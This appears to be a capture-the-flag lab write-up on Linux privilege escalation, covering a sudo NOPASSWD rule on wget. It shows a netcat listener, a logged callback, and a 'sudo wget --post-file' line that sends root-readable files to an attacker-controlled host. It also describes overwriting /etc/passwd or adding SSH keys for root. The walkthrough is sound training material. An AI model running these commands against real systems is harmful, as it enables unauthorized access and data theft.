



# 07 — Privilege Escalation

## Overview

With a foothold established as `jessie` (see [06 — Initial Access](../06-Initial-Access/README.md)), this phase covers local privilege-escalation enumeration: checking sudo rights, identifying a `NOPASSWD` misconfiguration on `wget`, and using the associated GTFOBins technique to exfiltrate root-owned file content to an attacker-controlled listener.

## Objectives

- Enumerate the current user's sudo privileges.
- Identify any binaries the user can run as root without a password.
- Map any such binary to a known privilege-escalation technique using GTFOBins.
- Set up a listener to capture the result of the technique.
- Locate and validate the objective file without exposing its contents publicly.

## Important Terminology

| Term | Definition |
|---|---|
| `sudo -l` | Lists the commands the current user is permitted to run through `sudo`, per the sudoers configuration |
| `NOPASSWD` | A sudoers directive allowing a command to run through `sudo` without re-entering a password |
| GTFOBins | A curated list of Unix binaries that can be abused to bypass local security restrictions when misconfigured, for example when allowed through `sudo` or marked SUID |
| File exfiltration via HTTP POST | Using a tool capable of sending local file content as the body of an outbound HTTP request, to read files the current shell otherwise couldn't display |
| Listener | A process, such as `netcat`, bound to a local port and waiting to receive an inbound connection or data |

## Concepts Explained

`sudo -l` is one of the first commands to run on any new foothold — it directly reveals commands the sudoers configuration allows the current user to run as another user, often root, and whether a password is required. A `NOPASSWD` entry for a binary is immediately worth checking against [GTFOBins](https://gtfobins.github.io/), since many common Unix utilities, including `wget`, `find`, `vim`, `less`, and `awk`, have documented ways to be abused for shell access or file read/write when allowed to run with elevated privileges.

`wget` is not designed as a privilege-escalation tool, but when it runs as root its legitimate features can be repurposed:

- It can **write** arbitrary files as root, for example overwriting `/etc/passwd` or `/etc/sudoers`, by fetching attacker-controlled content to a chosen destination.
- It can **read and exfiltrate** files the invoking shell otherwise can't display, by POSTing their content to a listener the attacker controls, using wget's built-in ability to submit local file content as an HTTP request body.

## Commands and Syntax

### Enumerating sudo rights

**Purpose:** List what the current user is permitted to run through `sudo`.

**Syntax:**
```bash
sudo -l
```

**Why it was used:** A standard, low-noise first step in local privilege-escalation enumeration.

**Example (executed):**
```bash
sudo -l
```

**Observed result:**
```text
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

> [!IMPORTANT]
> The output shows `(ALL : ALL) ALL` for jessie, which on its own would imply full sudo rights, subject to a password prompt. The `(root) NOPASSWD: /usr/bin/wget` line is the more interesting, self-contained finding: it demonstrates the intended lab vector — an explicit password-less allowance for a single GTFOBins-abusable binary — independent of what the broader `ALL:ALL` entry implies in this specific sudoers configuration.

### Setting up a listener on the attacker machine

**Purpose:** Prepare to receive data exfiltrated from the target using the `wget` technique.

**Syntax:**
```bash
nc -lvnp <port>
```

**Why it was used:** To capture whatever `wget`, run as root on the target, sends to the attacker's IP and port.

**Example (executed):**
```bash
ip a           # confirm attacker's tun0 IP: 192.168.128.158
nc -lvnp 4444
```

**Observed result:**
```text
listening on [any] 4444 ...
connect to [192.168.128.158] from (UNKNOWN) [10.129.188.235] 39274
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 192.168.128.158:4444
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

[REDACTED — 32-character value received in the POST body]
```

> [!WARNING]
> The value received in the POST body has been redacted in this document. Based on its format and the context of this exercise, it corresponds to objective content rather than general system output, and this repository's policy (see the root README's Scope & Ethics Notice) is to not publish captured flag values.

### Reference: the GTFOBins wget technique

> [!NOTE]
> The exact command line typed on the target to trigger the listener output above was not preserved in the session's terminal history, so it is not fabricated here. The syntax below is the published GTFOBins technique for `sudo`-enabled `wget`, consistent with the observed listener output: a root-run `wget` POSTing local file content to an attacker-controlled HTTP endpoint.

**Reference syntax (per GTFOBins, not verbatim from this session):**
```bash
sudo wget --post-file=<file-you-want-to-read> http://<attacker_ip>:<port>/
```

### Locating the objective file

**Purpose:** Confirm successful privilege escalation by locating the expected objective file on the filesystem.

**Syntax:**
```bash
find / -type f -iname <pattern> 2>/dev/null
cat <path>
```

**Why it was used:** A standard, low-noise way to locate a known target file across the filesystem while suppressing permission-denied noise.

**Example (executed):**
```bash
find / -type f -iname "*flag*" 2>/dev/null
cat /home/jessie/Documents/user_flag.txt
```

**Observed result (redacted):**
```text
/home/jessie/Documents/user_flag.txt
[REDACTED — 32-character flag value]
```

> [!WARNING]
> As with the POST body capture, the actual flag string has been redacted. This repository documents that the file was located and successfully read, confirming the methodology worked, without republishing the secret value.

## Command Breakdown

| Command | Flag | Description |
|---|---|---|
| `sudo` | `-l` | Lists allowed and denied commands for the invoking user under the current sudoers policy |
| `wget` | `--post-file=<path>` | Reads a local file and sends its content as the HTTP request body — an arbitrary-file-read primitive when `wget` runs with elevated privileges |
| `nc` | `-l` | Listen mode |
| `nc` | `-v` | Verbose output |
| `nc` | `-n` | Skip DNS resolution |
| `nc` | `-p <port>` | Local port to bind and listen on |
| `find` | `-iname <pattern>` | Case-insensitive filename match |
| `find` | `2>/dev/null` | Suppresses `Permission denied` errors from the search output |

## Examples

Full attacker-side sequence as executed:

```bash
ip a                 # identify tun0 IP: 192.168.128.158
nc -lvnp 4444         # start listener, then trigger the sudo wget technique on the target
```

Locating and reading the objective file on the target:

```bash
find / -type f -iname "*flag*" 2>/dev/null
cat /home/jessie/Documents/user_flag.txt
```

## Screenshots

| Screenshot | Description |
|---|---|
|  | `sudo -l` revealing `NOPASSWD` on `/usr/bin/wget` |
|  | Attacker listener receiving a `wget` POST callback from the target |
|  | Locating and reading the objective file (value redacted) |

## Observations

- `jessie` had an explicit, password-less sudo allowance for `/usr/bin/wget` — a narrowly scoped misconfiguration typical of a deliberately built training scenario.
- `wget`'s legitimate `--post-file` capability becomes a privileged file-read primitive the moment it can run as root through `sudo`.
- The target initiated an outbound connection back to the attacker, rather than the attacker connecting inbound. This is the same connectivity pattern used by reverse shells (see [cheatsheets/reverse-shells.md](../../cheatsheets/reverse-shells.md)) and is worth keeping in mind when planning firewall and listener setup on an engagement.
- Root-level file read was achieved without an interactive root shell, by exfiltrating the specific file of interest directly.

## Common Mistakes

- Overlooking `sudo -l` entirely and jumping straight to kernel-exploit hunting — checking sudo rights is lower-risk and often faster.
- Not cross-referencing an allowed binary against GTFOBins before assuming a single allowed command is harmless.
- Forgetting that many GTFOBins primitives, including this `wget` one, can also write files as root, not just read them — a more powerful escalation path, such as appending an SSH key to `/root/.ssh/authorized_keys`, that should be assessed even after achieving a narrower read-only result.
- Publishing raw exfiltrated secret content, such as flags, hashes, or keys, in write-ups.

## Notes

- The 32-character values observed in this phase, the POST body content and the flag file content, are consistent in format with standard CTF-style MD5-length flag tokens. This repository does not confirm or restate their exact values.

## Additional Context

> [!NOTE]
> Supplementary information, not directly observed during this session.

Beyond file exfiltration, `sudo`-enabled `wget` is also commonly used, per GTFOBins, to escalate to a full interactive root shell by fetching a malicious file to an arbitrary, sensitive destination path, such as overwriting `/etc/passwd` with a new root-equivalent user entry or writing an SSH public key into `/root/.ssh/authorized_keys`. This is worth pursuing as a follow-up in a future lab session, to compare the read-only exfiltration path documented here against a full shell-escalation path.

## References

- [GTFOBins — wget](https://gtfobins.github.io/gtfobins/wget/)
- [Sudoers Manual](https://www.sudo.ws/docs/man/sudoers.man/)

## Key Takeaways

- Run `sudo -l` as one of the very first commands on any new foothold.
- Check any `NOPASSWD` entry against GTFOBins before dismissing it, regardless of how harmless the binary looks.
- `wget` running as root can be turned into an arbitrary file-read, and per GTFOBins arbitrary file-write, primitive using its native `--post-file` option and an attacker-controlled HTTP listener.
- Never publish exfiltrated secret values, such as flags, keys, or hashes — document that the technique worked, not the resulting secret.

**Previous:** [← 06 — Initial Access](../06-Initial-Access/README.md) · **Back to:** [Repository Home](../../README.md)
